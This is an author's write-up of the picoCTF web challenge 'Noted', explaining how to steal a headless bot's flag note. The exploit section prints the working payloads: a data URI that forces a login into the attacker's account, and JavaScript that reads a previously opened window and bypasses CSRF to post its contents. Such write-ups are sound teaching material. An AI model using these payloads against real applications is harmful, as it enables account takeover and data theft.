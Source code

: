 #	Noted - Web - 500 Points

Noted was the second to last challenge in the web category worth 500 points, and the consensus on the Pico discord was that this is the point where the difficulty jumped up significantly compared to previous challenges.


Personally, I found this to be the most interesting challenge of the whole event, learned a lot from it, and found the solution to be very satisfying. 

#### TL;DR

1. Report a data URI which would open a separate window containing the bot's /notes page and flag, and log the bot into our account from the first window.
2. Trigger XSS from our page to bypass CORS and CSRF, making the bot create a note on our page with the contents of previously opened window.

### Introduction

This was a whitebox challenge, with the source code available to us, and the application itself was a very barebones note taking app. 

It's functionality was that a user could register, login, write/delete notes which were rendered on the user's homepage, or report a link. It didn't actually say who it the link was being reported to, but typically report functionality is used in CTFs in cases of client-side attacks. 

A quick test of the note functionality showed that the app didn't do any sanitisation of user supplied input, but it did use CSRF tokens on the form used to submit our notes.

Looking at the source code we could see that the application used Puppeteer - a headless chrome package - which is very commonly used in XSS challenges. Each time you submitted a link to the bot, it would create a new account using crypto.randomBytes(16) for both username and password, and then create a note which would contain the flag. It would then open an about:blank page, and vist the link we reported.

My first instinct was to attempt exfiltrate the bot's cookies/session, however the challenge description said that the bot didn't have internet access - each new instance of Puppeteer would actually point to http://0.0.0.0:8080 when creating that flag note. Later we found out that the challenge was altered and the bot was given internet access, however it did not affect our solution.

Exfiltrating the bot's cookies also didn't make sense because there was no publicly shared functionality on the app, and any kind of XSS attempt would have reset the bot's cookies. 

The first piece of the puzzle was the self XSS on the user page - the lack of sanitisation meant that we could execute any javascript we wanted in the context of the main app's domain. But we couldn't simply force the bot to self XSS by creating a new note on the bot's page containing an XSS payload, as we still had to bypass CSRF protection. 

We knew that bypassing CSRF through our self XSS was as simple as fetching /new, extracting the token from the response and attaching it to our post request, so we just had to find a way to have the bot perform a self XSS with our payload - meaning we would need to log the bot into our account, while still keeping the data from the bot's page available to us.



###	iframes are weird.

At this point we had enough information to try and piece everything together, and we had a feeling that there would be some kind of cross-frame scripting involved. 

While browsers enforce CORS and SOP policies preventing iframes from different domains from sharing any information, iframes from the same domain are free to talk to each other - even when nested inside each other. Meaning if you have a page with 2 iframes from the same domain embedded in it, iframe 1 is free to reach up through its' parent into iframe 2. 

But that behaviour also applies to javascript's window.open() function. If you pass a second parameter into window.open(), you can use that window object later with the second parameter acting as a name/variable for that window. Using our self XSS we were free to reach up from the app domain into a previously opened window.open() object and access anything on that page.

### Exploit

So piecing everything together:

1. Post a note on our page containing the main payload, which would be the last payload to be triggered in the chain. It would fetch a CSRF token and create a new note on our page.
2. The link we would report to the bot would be a data URI, containing a minified bare bones html page with a form and some javascript. The form had our username and passord filled in as the value attributes of the form inputs, but before submitting the form it would first open a new window pointing to /notes - which would have the bot's notes/flag on it.
3. The form would then be submitted, making a post request to /login, and redirecting to our page.
4. The bot would be redirected to our page, trigering the main payload which would reach back up to the previously opened window object and leaving a note on our page with the contents of that page, and the flag itself - bypassing CSRF protection in the process. 

So these were our final payloads:

> Data URI:

data:text/html;charset=utf-8,%3Chtml%3E%20%3Cbody%3E%20%3Cform%20action%3D%22http%3A%2F%2F0.0.0.0%3A8080%2Flogin%22%20id%3D%22f%22%20method%3D%22POST%22%3E%20%3Cinput%20name%3D%22username%22%20value%3D%22a%22%3E%20%3Cinput%20name%3D%22password%22%20value%3D%22a%22%3E%20%3Cinput%20type%3D%22submit%22%20value%3D%22Submit%22%3E%20%3C%2Fform%3E%20%3C%2Fbody%3E%20%3Cscript%3Ewindow.open(%22http%3A%2F%2F0.0.0.0%3A8080%2Fnotes%22%2C%20%22w%22)%3B%20f.submit()%3C%2Fscript%3E%3C%2Fhtml%3E



> Contents of the initial data URI payload:

	<html>
	    <body>
	        <form action="http://0.0.0.0:8080/login" id="f" method="POST">
	            <input name="username" value="a">
	            <input name="password" value="a">
	            <input type="submit" value="Submit">
	        </form>
	    </body>
	    <script> 
	    window.open("http://0.0.0.0:8080/notes", "w");
	    f.submit();
	    </script>
	</html>



> Contents of the payload from our page:

	let fW = window.open('', 'w'); 
    let flag = fW.document.documentElement.innerText;
    let y = new XMLHttpRequest()
    y.onreadystatechange = function() {
    if (y.readyState == 4) {
        parser = new DOMParser();
        let g = parser.parseFromString(y.responseText, "text/html")
        let s = g.getElementsByName('_csrf')[0].value
        fetch('http://0.0.0.0:8080/new', {
            method: 'POST',
            credentials: 'include',
            headers: {
                'Content-Type': 'application/json',
            },
            body: JSON.stringify({
                _csrf: s,
                title: 'Hello',
                content: flag,
            }),
    })
    }
    };
    y.open("GET", "http://0.0.0.0:8080/new", true);
    y.send();


So finally refreshing our page a few seconds after submitting our URL, our page had a new note on it containing the flag.

This was a very fun and satisfying challenge, huge thanks to Pico and the challenge creators!
